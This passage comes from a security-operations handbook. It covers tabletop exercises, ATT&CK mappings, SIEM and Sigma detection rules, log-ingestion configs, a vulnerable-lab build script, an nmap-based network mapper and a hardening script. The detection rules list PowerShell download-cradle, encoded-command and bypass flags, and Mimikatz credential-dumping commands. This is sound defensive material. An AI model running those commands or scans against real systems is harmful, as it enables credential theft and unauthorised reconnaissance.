      - "any real account or endpoint is affected"
      - "the event reaches an out-of-scope system"
  scenarios:
    - id: "PT-SIM-01"
      behavior_reference: "T1566.001 — simulated attachment-delivery alert"
      input: "fabricated email-security event; no email is sent and no payload exists"
      expected_evidence:
        - "event appears in the approved telemetry source"
        - "alert includes source, time, and disposition"
    - id: "PT-SIM-02"
      behavior_reference: "T1003.001 — simulated credential-access alert"
      input: "fabricated endpoint event; no process accesses LSASS and no credentials are collected"
      expected_evidence:
        - "alert routes to the intended queue"
        - "triage notes distinguish simulation from a real compromise"
  response_discussion:
    - "Which evidence would be needed before declaring a real incident?"
    - "Who can authorize containment of a real endpoint?"
    - "How will synthetic records and temporary lab state be removed?"
  metrics:
    - "time from synthetic event to alert"
    - "expected telemetry present or missing"
    - "triage accuracy and false-positive handling"
  deliverables:
    - "scope and event record"
    - "detection gaps and evidence limitations"
    - "approved improvement owners and due dates"
    - "cleanup confirmation"
```

### Exercise Lifecycle



The diagram is a planning flow. It does not prescribe executing the mapped behavior.

### MITRE ATT&CK Mapping

Use ATT&CK IDs to label the behavior being evaluated, then name the telemetry and expected defensive evidence. A mapping is a taxonomy reference, not authorization to run a test.

| Behavior reference | Safe exercise input | Defensive evidence to review |
|---|---|---|
| [T1566.001 — Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/) | Synthetic email-gateway event; no message or attachment is sent | Mail-security disposition, alert route, analyst classification |
| [T1003.001 — LSASS Memory](https://attack.mitre.org/techniques/T1003/001/) | Synthetic endpoint alert; no memory access or credential collection | EDR event fields, escalation and containment decision |
| [T1059.001 — PowerShell](https://attack.mitre.org/techniques/T1059/001/) | Mock process event in a tabletop record | Script logging availability, rule coverage, triage notes |
| [T1021.001 — Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/) | Synthetic authentication and remote-session events | Identity, endpoint, and network evidence correlation |

Do not use this playbook to execute phishing, AMSI bypass, process injection, credential dumping, Kerberoasting, or command-and-control tests. The [Tradecraft reference](Tradecraft/README.md) is for defensive study; any hands-on assessment needs its own explicit authorization, technical scope, containment, and cleanup plan.

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---
## Blue Team Playbook (Generic)

### Blue Team Fundamentals

A blue team monitors security signals, validates suspected incidents, coordinates authorized response, and improves controls. Follow the organization's escalation paths and incident-response plan.

### Daily Operations Review

Use the team's approved dashboards, evidence sources, and review schedule. These checks are a review guide, not a script that assumes a particular SIEM, log format, operating system, or patch-management tool.

| Area | Review | Escalate when |
|---|---|---|
| SIEM and detection | Prioritized alerts, open investigations, data-source health, and missed/late ingestion | A high-priority alert is untriaged, expected data is absent, or a rule behaves unexpectedly |
| Identity and network | Privileged sign-ins, authentication failures, remote access, and unusual cross-zone traffic | Activity conflicts with approved access or cannot be explained by the owner |
| Endpoint and vulnerability | Endpoint-protection health, high-priority exposure, and patch status from managed inventory | A critical control is disabled or a high-risk exposure lacks an owner and plan |
| Backup and recovery | Last successful backup, isolation/immutability status, and recovery-test results | A required recovery point is missing or a backup control is unhealthy |
| Change and service health | Approved configuration changes, critical service availability, and monitoring gaps | A change is unowned, unexpected, or affects incident-response readiness |

### Incident Response Quick Reference

Use the organization's current incident plan and authority matrix. NIST SP 800-61 Rev. 3 integrates incident response with CSF 2.0 risk management; CISA's playbook provides an operational sequence for preparation, detection and analysis, containment, eradication and recovery, and post-incident work.



Containment and recovery can disrupt services. Use preapproved actions and the incident lead's authority; preserve evidence and coordinate business owners before changes when circumstances allow.

### Response References

- [NIST SP 800-61 Rev. 3 — Incident Response Recommendations and Considerations for Cybersecurity Risk Management](https://csrc.nist.gov/pubs/sp/800/61/r3/final)
- [CISA Federal Government Cybersecurity Incident and Vulnerability Response Playbooks](https://www.cisa.gov/sites/default/files/2024-08/Federal_Government_Cybersecurity_Incident_and_Vulnerability_Response_Playbooks_508C.pdf)

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---
## Blue Team Playbook (Detailed)

### Advanced Detection Strategies

#### Behavioral Analytics

Behavioral analytics can prioritize review, but an anomaly score is not proof of compromise. Use approved telemetry and a documented baseline, then corroborate alerts with context.

| Review question | Useful evidence | Limitation |
|---|---|---|
| Is a sign-in unusual for this identity? | Time, device, authentication method, expected role, and recent change context | A new location or time can be legitimate; do not block solely on a model score |
| Is the baseline representative? | Defined training period, known maintenance windows, and coverage gaps | Drift, sparse data, and a changed workforce can make old baselines misleading |
| Can an analyst explain the alert? | Source records, rule/model version, threshold, and disposition | An alert without supporting fields cannot be reliably reproduced or audited |
| Is sensitive data protected? | Approved access, retention period, and data-minimization controls | Security telemetry can contain personal or confidential information |

#### Threat Hunting Procedures

Start with a written hypothesis, a named owner, an approved data set, and a time window. Use the organization's maintained query tools; avoid broad, unbounded host searches or access to personal data. A hunt produces a lead for validation, not a verdict.



Examples of defensive hypotheses include an unexpected privileged sign-in, an unusual remote-administration session, or a security control changing outside an approved maintenance window. Define the expected evidence and benign explanations before querying. Escalate through the approved incident path; do not attempt containment or credential changes without the appropriate authority.

### Security Metrics Dashboard

Choose a fixed population, time range, and timestamp source before comparing periods. Define the terms locally; “MTTR” can mean response, repair, resolution, or recovery in different organizations.

| Metric | Example definition | Interpretation guardrail |
|---|---|---|
| Mean time to detect | Validated detection time minus earliest evidenced event time | Incomplete logging can make the start time uncertain; report the data source and coverage |
| Time to acknowledge | First qualified analyst acknowledgment minus alert creation time | Measures queue handling, not whether the alert was correctly handled |
| Time to contain | Approved containment completion minus incident declaration time | Include approval delays and business-impact constraints |
| Alert precision | Confirmed true positives ÷ (confirmed true positives + confirmed false positives) | Use only adjudicated alerts; this is not recall/sensitivity |
| Test detection coverage | In-scope synthetic cases detected ÷ in-scope synthetic cases performed | State which cases were run and which data sources were available; this is not proof against all attacks |
| Vulnerability remediation time | Verified remediation time minus validated finding time | Report by severity, asset cohort, and exception status |

### Blue Team Detection References

- [Network Detection & Packet Analysis](Tradecraft/network-detection.md) — network telemetry and protocol analysis.
- [AV/EDR Evasion — Detection & Defense](Tradecraft/av-edr-evasion.md) — defensive indicators and endpoint evidence.
- [Active Directory — Attacks & Defense](Tradecraft/active-directory.md) — identity and directory-service detections.
- [NIST SP 800-61 Rev. 3](https://csrc.nist.gov/pubs/sp/800/61/r3/final) — incident response within CSF 2.0 risk management.

---
## Detection Rule Pipelines

### SIEM Detection Rule Development

```yaml
# detection_rule_template.yaml

rule:
  name: "Suspicious PowerShell Execution"
  id: "DR-2025-001"
  version: "1.0"
  author: "Blue Team"
  date: "2025-01-10"
  
  mitre_attack:
    - T1059.001  # PowerShell
    - T1027      # Obfuscated Files or Information
  
  severity: "high"
  
  description: |
    Detects suspicious PowerShell execution with common attack indicators:
    - Encoded commands
    - Download cradles
    - Hidden windows
    - Bypass execution policy
  
  data_source:
    - Windows Event Logs (EventID 4688, 4104)
    - Sysmon (EventID 1)
    - EDR telemetry
  
  detection_logic:
    condition: "process_creation AND (encoded OR download OR bypass)"
    
    encoded:
      - "-enc"
      - "-encodedcommand"
      - "frombase64string"
    
    download:
      - "downloadstring"
      - "downloadfile"
      - "invoke-webrequest"
      - "iwr"
      - "wget"
      - "curl"
    
    bypass:
      - "-nop"
      - "-noprofile"
      - "-ep bypass"
      - "-executionpolicy bypass"
      - "-w hidden"
      - "-windowstyle hidden"
  
  false_positives:
    - Legitimate admin scripts
    - Software deployment tools
    - Automation frameworks
  
  response:
    immediate:
      - Alert SOC team
      - Collect process memory dump
      - Capture network traffic
    
    investigation:
      - Review parent process
      - Check command line arguments
      - Analyze script content
      - Review user's recent activity
    
    containment:
      - Isolate endpoint if confirmed malicious
      - Kill suspicious processes
      - Block C2 domains
  
  references:
    - https://attack.mitre.org/techniques/T1059/001/
    - https://blog.example.com/powershell-attacks
```

### Sigma Rule Example

```yaml
# sigma_rule_mimikatz.yaml

title: Mimikatz Execution Detection
id: a642964e-bead-4bed-8910-1bb4d63e3cd8
status: production
description: Detects the execution of Mimikatz credential dumping tool
references:
    - https://attack.mitre.org/software/S0002/
author: Blue Team
date: 2025/01/10
modified: 2025/01/10
tags:
    - attack.credential_access
    - attack.t1003.001
logsource:
    category: process_creation
    product: windows
detection:
    selection_process:
        - Image|endswith:
            - '\mimikatz.exe'
            - '\mimilib.dll'
        - OriginalFileName:
            - 'mimikatz.exe'
            - 'mimilib.dll'
    selection_command:
        CommandLine|contains:
            - 'sekurlsa::'
            - 'lsadump::'
            - 'kerberos::'
            - 'crypto::'
    condition: selection_process or selection_command
falsepositives:
    - Security testing (authorized)
    - Red team exercises
level: critical
```

### Automated Rule Testing

```python
#!/usr/bin/env python3
# test_detection_rules.py

import subprocess
import json

class RuleTester:
    def __init__(self, rule_file):
        self.rule_file = rule_file
        self.test_cases = []
    
    def add_test_case(self, name, event_data, expected_result):
        """Add test case for detection rule"""
        self.test_cases.append({
            'name': name,
            'event': event_data,
            'expected': expected_result
        })
    
    def run_tests(self):
        """Execute all test cases"""
        results = []
        
        for test in self.test_cases:
            print(f"[*] Running test: {test['name']}")
            
            # Simulate event
            result = self.evaluate_rule(test['event'])
            
            # Compare with expected
            passed = (result == test['expected'])
            
            results.append({
                'test': test['name'],
                'passed': passed,
                'expected': test['expected'],
                'actual': result
            })
            
            status = "PASS" if passed else "FAIL"
            print(f"[{status}] {test['name']}")
        
        # Summary
        passed = sum(1 for r in results if r['passed'])
        total = len(results)
        print(f"\n[*] Tests passed: {passed}/{total}")
        
        return results
    
    def evaluate_rule(self, event_data):
        """Evaluate detection rule against event"""
        # Logic to test rule against event
        # This would interface with your SIEM or detection engine
        
        # Simplified example:
        if 'powershell' in event_data.get('process', '').lower():
            if any(indicator in event_data.get('command', '') 
                   for indicator in ['-enc', 'downloadstring', '-nop']):
                return 'alert'
        
        return 'no_alert'

# Example usage
tester = RuleTester('powershell_detection.yaml')

# Add test cases
tester.add_test_case(
    "Malicious encoded PowerShell",
    {
        'process': 'powershell.exe',
        'command': 'powershell.exe -enc AAABBBCCC...'
    },
    'alert'
)

tester.add_test_case(
    "Legitimate PowerShell script",
    {
        'process': 'powershell.exe',
        'command': 'powershell.exe Get-Process'
    },
    'no_alert'
)

# Run tests
results = tester.run_tests()
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## SIEM Ingestion

### Log Sources Configuration

```yaml
# siem_log_sources.yaml

log_sources:
  
  windows_events:
    enabled: true
    collector: "winlogbeat"
    endpoints:
      - domain_controllers
      - workstations
      - servers
    event_ids:
      security:
        - 4624  # Successful logon
        - 4625  # Failed logon
        - 4672  # Special privileges assigned
        - 4688  # Process creation
        - 4689  # Process termination
        - 4698  # Scheduled task created
        - 4720  # User account created
        - 4732  # Member added to security group
      system:
        - 7045  # Service installed
      application:
        - 1000  # Application error
  
  sysmon:
    enabled: true
    collector: "winlogbeat"
    event_ids:
      - 1   # Process creation
      - 3   # Network connection
      - 7   # Image loaded
      - 8   # CreateRemoteThread
      - 10  # ProcessAccess
      - 11  # FileCreate
      - 12  # RegistryEvent
      - 13  # RegistryEvent (Value Set)
      - 22  # DNSEvent
  
  linux_logs:
    enabled: true
    collector: "filebeat"
    paths:
      - /var/log/auth.log
      - /var/log/syslog
      - /var/log/apache2/*.log
      - /var/log/nginx/*.log
  
  firewall:
    enabled: true
    collector: "syslog"
    sources:
      - palo_alto
      - fortinet
      - checkpoint
  
  ids_ips:
    enabled: true
    collector: "syslog"
    sources:
      - snort
      - suricata
  
  proxy:
    enabled: true
    collector: "filebeat"
    sources:
      - squid
      - bluecoat
  
  endpoint_detection:
    enabled: true
    collector: "api"
    sources:
      - crowdstrike
      - sentinelone
      - carbonblack
```

### Winlogbeat Configuration

```yaml
# winlogbeat.yml

winlogbeat.event_logs:
  - name: Security
    event_id: 4624, 4625, 4672, 4688, 4720, 4732
    processors:
      - script:
          lang: javascript
          source: >
            function process(event) {
              // Enrich with additional context
              var user = event.Get("winlog.event_data.TargetUserName");
              if (user) {
                event.Put("user.name", user);
              }
            }
  
  - name: System
    event_id: 7045, 1000
  
  - name: Application
  
  - name: Microsoft-Windows-Sysmon/Operational
    processors:
      - drop_event:
          when:
            not:
              or:
                - equals:
                    winlog.event_id: 1
                - equals:
                    winlog.event_id: 3
                - equals:
                    winlog.event_id: 7
                - equals:
                    winlog.event_id: 11

output.elasticsearch:
  hosts: ["elasticsearch:9200"]
  index: "winlogbeat-%{+yyyy.MM.dd}"
  username: "elastic"
  password: "${ES_PASSWORD}"   # from the Beats keystore or environment; never a literal

processors:
  - add_host_metadata:
      when.not.contains.tags: forwarded
  - add_cloud_metadata: ~
  - add_docker_metadata: ~
  - add_kubernetes_metadata: ~

logging.level: info
logging.to_files: true
logging.files:
  path: C:\ProgramData\winlogbeat\Logs
  name: winlogbeat
  keepfiles: 7
  permissions: 0644
```

### Filebeat Configuration

```yaml
# filebeat.yml

filebeat.inputs:

# Authentication logs
- type: log
  enabled: true
  paths:
    - /var/log/auth.log
  fields:
    log_type: authentication
  fields_under_root: true

# Web server logs
- type: log
  enabled: true
  paths:
    - /var/log/nginx/access.log
    - /var/log/apache2/access.log
  fields:
    log_type: web_access
  processors:
    - dissect:
        tokenizer: '%{client_ip} - - [%{timestamp}] "%{method} %{uri} %{protocol}" %{status} %{size}'
        field: "message"
        target_prefix: "web"

# System logs
- type: log
  enabled: true
  paths:
    - /var/log/syslog
  fields:
    log_type: system
  multiline:
    pattern: '^\['
    negate: true
    match: after

output.logstash:
  hosts: ["logstash:5044"]

processors:
  - add_host_metadata:
      when.not.contains.tags: forwarded
  - add_cloud_metadata: ~
  - add_docker_metadata: ~

logging.level: info
```

### Logstash Pipeline

```ruby
# logstash_pipeline.conf

input {
  beats {
    port => 5044
  }
  
  syslog {
    port => 514
    type => "syslog"
  }
}

filter {
  # Parse Windows Security logs
  if [log_type] == "windows_security" {
    grok {
      match => {
        "message" => "%{TIMESTAMP_ISO8601:timestamp} %{WORD:event_id} %{GREEDYDATA:event_data}"
      }
    }
    
    # Enrich with threat intelligence
    if [winlog][event_data][IpAddress] {
      geoip {
        source => "[winlog][event_data][IpAddress]"
        target => "geoip"
      }
    }
  }
  
  # Parse authentication logs
  if [log_type] == "authentication" {
    grok {
      match => {
        "message" => "%{SYSLOGTIMESTAMP:timestamp} %{HOSTNAME:hostname} %{WORD:program}\[%{NUMBER:pid}\]: %{GREEDYDATA:message}"
      }
    }
    
    # Detect failed logins
    if "Failed password" in [message] {
      mutate {
        add_tag => [ "failed_login" ]
      }
    }
  }
  
  # Normalize timestamps
  date {
    match => [ "timestamp", "ISO8601", "UNIX", "UNIX_MS" ]
    target => "@timestamp"
  }
  
  # Add custom fields
  mutate {
    add_field => {
      "ingestion_timestamp" => "%{@timestamp}"
      "pipeline_version" => "1.0"
    }
  }
}

output {
  elasticsearch {
    hosts => ["elasticsearch:9200"]
    index => "%{log_type}-%{+YYYY.MM.dd}"
    user => "elastic"
    password => "${ES_PASSWORD}"   # from the Logstash keystore or environment; prefer a least-privilege user
  }
  
  # Send high severity alerts to separate index
  if [severity] == "high" or [severity] == "critical" {
    elasticsearch {
      hosts => ["elasticsearch:9200"]
      index => "alerts-%{+YYYY.MM.dd}"
    }
  }
  
  # Debug output (disable in production)
  # stdout { codec => rubydebug }
}
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

# CUSTOM SCRIPTS & AUTOMATION

## Black Hat Bash Lab Build

### Complete Lab Environment Setup

```bash
#!/bin/bash
# blackhat_bash_lab.sh - Build complete hacking lab

echo "=== BLACK HAT BASH LAB SETUP ==="

# Variables
NETWORK="10.66.66.0/24"
GATEWAY="10.66.66.1"
KALI_IP="10.66.66.10"
TARGET_IP="10.66.66.100"

# Create virtual network
echo "[*] Creating virtual network..."
sudo ip link add br-hacklab type bridge
sudo ip addr add $GATEWAY/24 dev br-hacklab
sudo ip link set br-hacklab up

# Enable IP forwarding
echo "[*] Enabling IP forwarding..."
sudo sysctl -w net.ipv4.ip_forward=1

# Configure NAT
echo "[*] Setting up NAT..."
sudo iptables -t nat -A POSTROUTING -s $NETWORK -o eth0 -j MASQUERADE

# Create attacker VM
echo "[*] Setting up Kali Linux VM..."
virt-install \
  --name kali-attacker \
  --memory 4096 \
  --vcpus 2 \
  --disk size=40 \
  --cdrom /path/to/kali-linux.iso \
  --network bridge=br-hacklab \
  --graphics vnc

# Create vulnerable target VMs
echo "[*] Setting up vulnerable target VMs..."

# Metasploitable2
virt-install \
  --name metasploitable2 \
  --memory 2048 \
  --vcpus 1 \
  --disk /path/to/metasploitable2.vmdk \
  --import \
  --network bridge=br-hacklab \
  --graphics vnc

# DVWA (deliberately vulnerable web application) — do not run on a
# production, household or client LAN. The legacy Ubuntu 20.04 netboot
# virt-install command was invalid and has been removed, not "repaired"
# with a guessed image URL. Provision a supported, isolated guest from
# a vendor-checksummed image before installing the current DVWA project
# according to https://github.com/digininja/DVWA .
# Verify published port bindings and isolation before starting it.
# There is intentionally no executable DVWA VM command in this sketch.

# VulnHub machines
echo "[*] Downloading VulnHub machines..."
mkdir -p ~/lab/vulnhub
cd ~/lab/vulnhub

# Download popular vulnerable VMs
wget https://www.vulnhub.com/entry/kioptrix-2014-5,62/
wget https://www.vulnhub.com/

# Extract and import
tar -xvf kioptrix2014.tar.bz2
virt-install --import --name kioptrix --disk kioptrix2014.vmdk \
  --memory 1024 --network bridge=br-hacklab

echo "[*] Creating lab documentation..."
cat > ~/lab/README.md << 'LAB_README'
# Black Hat Bash Lab Environment

## Network Topology
```
10.66.66.0/24 - Lab Network
├── 10.66.66.1   - Gateway
├── 10.66.66.10  - Kali Linux (Attacker)
├── 10.66.66.100 - Metasploitable2
├── 10.66.66.101 - DVWA
└── 10.66.66.102 - Kioptrix
```

## Credentials
- Metasploitable2: msfadmin/msfadmin
- DVWA: admin/password
- Kioptrix: Various

## Lab Exercises
1. Network reconnaissance
2. Vulnerability scanning
3. Exploitation
4. Post-exploitation
5. Privilege escalation
6. Lateral movement

## Safety Reminders
- This lab is ISOLATED from production networks
- All activities are LEGAL within this environment
- NEVER test these techniques outside authorized environments
LAB_README

echo "[+] Lab setup complete!"
echo "[*] Access VMs via VNC on localhost"
echo "[*] Lab documentation: ~/lab/README.md"
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Network Automation Scripts

### Automated Network Mapping

```python
#!/usr/bin/env python3
# network_mapper.py - Automated network discovery and mapping

import nmap
import networkx as nx
import matplotlib.pyplot as plt
import json

class NetworkMapper:
    def __init__(self, network):
        self.network = network
        self.nm = nmap.PortScanner()
        self.graph = nx.Graph()
        self.hosts = {}
    
    def scan_network(self):
        """Perform comprehensive network scan"""
        print(f"[*] Scanning network: {self.network}")
        
        # Host discovery
        self.nm.scan(hosts=self.network, arguments='-sn')
        live_hosts = [host for host in self.nm.all_hosts() 
                      if self.nm[host].state() == 'up']
        
        print(f"[+] Found {len(live_hosts)} live hosts")
        
        # Detailed scan of live hosts
        for host in live_hosts:
            print(f"[*] Scanning {host}...")
            self.nm.scan(host, arguments='-sV -O')
            
            host_info = {
                'ip': host,
                'hostname': self.nm[host].hostname(),
                'os': self.get_os(host),
                'ports': self.get_ports(host),
                'services': self.get_services(host)
            }
            
            self.hosts[host] = host_info
            self.graph.add_node(host, **host_info)
    
    def get_os(self, host):
        """Extract OS information"""
        try:
            if 'osmatch' in self.nm[host]:
                return self.nm[host]['osmatch'][0]['name']
        except:
            pass
        return "Unknown"
    
    def get_ports(self, host):
        """Extract open ports"""
        ports = []
        for proto in self.nm[host].all_protocols():
            ports.extend(self.nm[host][proto].keys())
        return sorted(ports)
    
    def get_services(self, host):
        """Extract service information"""
        services = {}
        for proto in self.nm[host].all_protocols():
            for port in self.nm[host][proto]:
                service = self.nm[host][proto][port]
                services[port] = {
                    'name': service['name'],
                    'product': service.get('product', ''),
                    'version': service.get('version', '')
                }
        return services
    
    def discover_relationships(self):
        """Identify relationships between hosts"""
        # Add edges based on common services, network segments, etc.
        hosts_list = list(self.hosts.keys())
        
        for i, host1 in enumerate(hosts_list):
            for host2 in hosts_list[i+1:]:
                # Connect hosts in same subnet
                if self.same_subnet(host1, host2):
                    self.graph.add_edge(host1, host2, relationship="same_subnet")
                
                # Connect if sharing services
                common_services = set(self.hosts[host1]['services'].keys()) & \
                                set(self.hosts[host2]['services'].keys())
                if common_services:
                    self.graph.add_edge(host1, host2, 
                                      relationship="common_services",
                                      services=list(common_services))
    
    def same_subnet(self, ip1, ip2):
        """Check if IPs are in same /24 subnet"""
        return '.'.join(ip1.split('.')[:3]) == '.'.join(ip2.split('.')[:3])
    
    def visualize_network(self, output_file='network_map.png'):
        """Create network visualization"""
        plt.figure(figsize=(15, 10))
        
        pos = nx.spring_layout(self.graph)
        
        # Draw nodes
        nx.draw_networkx_nodes(self.graph, pos, node_size=700, 
                              node_color='lightblue')
        
        # Draw edges
        nx.draw_networkx_edges(self.graph, pos, width=2, alpha=0.5)
        
        # Draw labels
        labels = {host: f"{host}\n{self.hosts[host]['os']}" 
                 for host in self.hosts}
        nx.draw_networkx_labels(self.graph, pos, labels, font_size=8)
        
        plt.title("Network Topology Map")
        plt.axis('off')
        plt.tight_layout()
        plt.savefig(output_file, dpi=300, bbox_inches='tight')
        print(f"[+] Network map saved to {output_file}")
    
    def export_json(self, output_file='network_data.json'):
        """Export network data to JSON"""
        data = {
            'network': self.network,
            'hosts': self.hosts,
            'relationships': []
        }
        
        for edge in self.graph.edges(data=True):
            data['relationships'].append({
                'source': edge[0],
                'target': edge[1],
                'attributes': edge[2]
            })
        
        with open(output_file, 'w') as f:
            json.dump(data, f, indent=2)
        
        print(f"[+] Network data exported to {output_file}")
    
    def generate_report(self):
        """Generate comprehensive network report"""
        report = f"""
        === NETWORK MAPPING REPORT ===
        
        Network: {self.network}
        Total Hosts: {len(self.hosts)}
        
        HOST DETAILS:
        """
        
        for host, info in self.hosts.items():
            report += f"\n{host} ({info['hostname']})\n"
            report += f"  OS: {info['os']}\n"
            report += f"  Open Ports: {', '.join(map(str, info['ports']))}\n"
            report += f"  Services:\n"
            for port, service in info['services'].items():
                report += f"    {port}: {service['name']} "
                report += f"{service['product']} {service['version']}\n"
        
        print(report)
        return report

# Example usage
if __name__ == "__main__":
    mapper = NetworkMapper("192.168.1.0/24")
    mapper.scan_network()
    mapper.discover_relationships()
    mapper.visualize_network()
    mapper.export_json()
    mapper.generate_report()
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## System Administration Scripts

### Automated System Hardening

```bash
#!/bin/bash
# system_hardening.sh - Comprehensive system hardening script

echo "=== SYSTEM HARDENING SCRIPT ==="

# Detect OS
if [ -f /etc/debian_version ]; then
    OS="debian"
elif [ -f /etc/redhat-release ]; then
    OS="redhat"
else
    echo "[-] Unsupported OS"
    exit 1
fi

# Update system
echo "[*] Updating system..."
if [ "$OS" == "debian" ]; then
    apt update && apt upgrade -y
else
    yum update -y
fi

# Configure firewall
echo "[*] Configuring firewall..."
if command -v ufw &> /dev/null; then
    ufw default deny incoming
    ufw default allow outgoing
    ufw allow 22/tcp
    ufw enable
elif command -v firewall-cmd &> /dev/null; then
    firewall-cmd --set-default-zone=drop
    firewall-cmd --add-service=ssh --permanent
    firewall-cmd --reload
fi

# Disable unnecessary services
echo "[*] Disabling unnecessary services..."
SERVICES=("telnet" "ftp" "rsh" "rlogin" "rexec")
for service in "${SERVICES[@]}"; do
    systemctl disable $service 2>/dev/null
    systemctl stop $service 2>/dev/null
done

# Configure SSH
echo "[*] Hardening SSH..."
SSH_CONFIG="/etc/ssh/sshd_config"
cp $SSH_CONFIG ${SSH_CONFIG}.backup

# Disable root login
sed -i 's/^#*PermitRootLogin.*/PermitRootLogin no/' $SSH_CONFIG

# Disable password authentication (use keys only)
sed -i 's/^#*PasswordAuthentication.*/PasswordAuthentication no/' $SSH_CONFIG

# Change default port (optional)
# sed -i 's/^#*Port.*/Port 2222/' $SSH_CONFIG

# Disable X11 forwarding
sed -i 's/^#*X11Forwarding.*/X11Forwarding no/' $SSH_CONFIG

# Set max auth tries
sed -i 's/^#*MaxAuthTries.*/MaxAuthTries 3/' $SSH_CONFIG

systemctl restart sshd

# Configure fail2ban
echo "[*] Installing and configuring fail2ban..."
if [ "$OS" == "debian" ]; then
    apt install -y fail2ban
else
    yum install -y fail2ban
fi

cat > /etc/fail2ban/jail.local << 'F2B'
[DEFAULT]
bantime = 3600
findtime = 600
maxretry = 3

[sshd]
enabled = true
port = ssh
logpath = /var/log/auth.log
F2B

systemctl enable fail2ban
systemctl start fail2ban

# Set file permissions
echo "[*] Setting secure file permissions..."
chmod 600 /etc/shadow
chmod 600 /etc/gshadow
chmod 644 /etc/passwd
chmod 644 /etc/group

# Configure password policy
echo "[*] Configuring password policy..."
if [ "$OS" == "debian" ]; then
    apt install -y libpam-pwquality
else
    yum install -y libpwquality
fi

cat >> /etc/security/pwquality.conf << 'PWQUAL'
minlen = 12
dcredit = -1
ucredit = -1
ocredit = -1
lcredit = -1
PWQUAL

# Configure account lockout
cat >> /etc/pam.d/common-auth << 'PAML'
auth required pam_tally2.so deny=3 unlock_time=1800
PAML

# Disable IPv6 if not needed
echo "[*] Disabling IPv6..."
cat >> /etc/sysctl.conf << 'IPV6'
net.ipv6.conf.all.disable_ipv6 = 1
net.ipv6.conf.default.disable_ipv6 = 1
IPV6
sysctl -p

# Configure kernel security
echo "[*] Applying kernel security settings..."
cat >> /etc/sysctl.conf << 'KERNEL'
# Kernel hardening
kernel.dmesg_restrict = 1
kernel.kptr_restrict = 2
kernel.yama.ptrace_scope = 1

# Network security
net.ipv4.conf.all.rp_filter = 1
net.ipv4.conf.default.rp_filter = 1
net.ipv4.conf.all.accept_source_route = 0
net.ipv4.conf.default.accept_source_route = 0
net.ipv4.conf.all.send_redirects = 0
net.ipv4.conf.default.send_redirects = 0
net.ipv4.conf.all.accept_redirects = 0
net.ipv4.conf.default.accept_redirects = 0
net.ipv4.icmp_echo_ignore_broadcasts = 1
net.ipv4.icmp_ignore_bogus_error_responses = 1
net.ipv4.tcp_syncookies = 1
KERNEL
sysctl -p

# Install and configure auditd
echo "[*] Configuring system auditing..."
if [ "$OS" == "debian" ]; then
    apt install -y auditd
else
    yum install -y audit
fi

systemctl enable auditd
systemctl start auditd

# Add audit rules
cat >> /etc/audit/rules.d/audit.rules << 'AUDIT'
# Monitor user/group modifications
-w /etc/group -p wa -k identity
-w /etc/passwd -p wa -k identity
-w /etc/shadow -p wa -k identity

# Monitor sudo usage
-w /etc/sudoers -p wa -k sudo_changes

# Monitor system calls
-a always,exit -F arch=b64 -S adjtimex -S settimeofday -k time-change
-a always,exit -F arch=b64 -S mount -F auid>=1000 -F auid!=4294967295 -k mounts
AUDIT

augenrules --load

# Create security report
echo "[*] Generating security report..."
cat > /root/hardening_report.txt << REPORT
=== SYSTEM HARDENING REPORT ===
Date: $(date)
Hostname: $(hostname)
OS: $(cat /etc/os-release | grep PRETTY_NAME | cut -d'"' -f2)

CHANGES APPLIED:
✓ System updated
✓ Firewall configured
✓ Unnecessary services disabled
✓ SSH hardened
✓ Fail2ban installed
✓ File permissions secured
✓ Password policy enforced
✓ IPv6 disabled
✓ Kernel security parameters applied
✓ System auditing enabled

NEXT STEPS:
- Review /var/log/auth.log regularly
- Monitor fail2ban logs
- Set up automated backups
- Implement intrusion detection
- Configure log forwarding to SIEM

REPORT

echo "[+] System hardening complete!"
echo "[*] Report saved to /root/hardening_report.txt"
echo "[!] Please reboot for all changes to take effect"
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## Python Security Toolkits

### Complete Security Toolkit

```python
#!/usr/bin/env python3
# security_toolkit.py - Comprehensive security toolkit

import socket
import threading
import subprocess
import requests
import hashlib
import os
from datetime import datetime

class SecurityToolkit:
    def __init__(self):
        self.results = {}
    
